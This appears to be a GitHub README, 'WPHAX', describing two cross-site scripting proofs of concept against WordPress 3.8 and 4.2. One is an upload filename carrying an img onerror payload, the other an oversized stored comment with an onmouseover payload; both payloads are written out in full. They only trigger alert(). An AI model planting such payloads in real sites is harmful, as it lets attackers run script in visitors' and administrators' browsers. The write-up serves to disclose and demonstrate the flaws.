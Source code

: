 # WPHAX 

## **Exploit 1**
WP Version used: **3.8**

**Description:**
"Upload media" section can be hacked with **XSS**.

**Steps:**

* Go to **Upload Media** menu.

* Upload a file which is more than **20MB** with `"file<img src=x onerror=alert("hacked")>.png"` name.
![Upload Media](https://i.imgur.com/Ad0wZIt.png)

* Done
![XSS](https://i.imgur.com/aRp2L62.png)

***
## **Exploit 2**
WP Version used: **4.2**

**Description:**
Stored **XSS** can be executed with malicious comment.

**Steps:**

* Leave a comment (with a string bigger than 64KB): `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AA... AA'></a>`
![Leave the comment](https://i.imgur.com/VVD3ZqO.png)

* View the comment on the page
![View as admin](https://i.imgur.com/wwVBiiG.png)

* Done
![View as admin](https://i.imgur.com/0HTXTUk.png)
